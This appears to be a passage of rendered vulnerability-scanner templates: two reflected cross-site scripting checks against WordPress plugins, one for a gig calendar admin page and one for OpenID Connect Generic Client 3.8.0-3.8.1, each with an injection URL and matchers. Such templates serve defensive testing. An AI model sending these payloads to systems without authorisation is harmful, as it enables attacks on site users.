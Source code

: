 ```
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=mf_gig_calendar&action=edit&id="></script><script>alert(document.domain)</script><" HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - status**
- status
    1. 200

**Type - word**
- part - header
- words
    1. text/html

---
# WordPress OpenID Connect Generic Client 3.8.0-3.8.1 - Cross-Site Scripting
## Description
- WordPress OpenID Connect Generic Client plugin 3.8.0 and 3.8.1 contains a cross-site scripting vulnerability. It does not sanitize the login error when output back in the login form, thereby not requiring authentication, which can be exploited with the default configuration.
- severity - medium
- tags - wpscan,cve,cve2021,wordpress,xss,wp-plugin,wp,openid
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-login.php?login-error=\<script>alert(document.domain)\</script>
### Matchers

**Type - word**
- part - body
- words
    1. ERROR (\<script>alert(document.domain)\</script>):
    2. Login with OpenID Connect
- condition - and
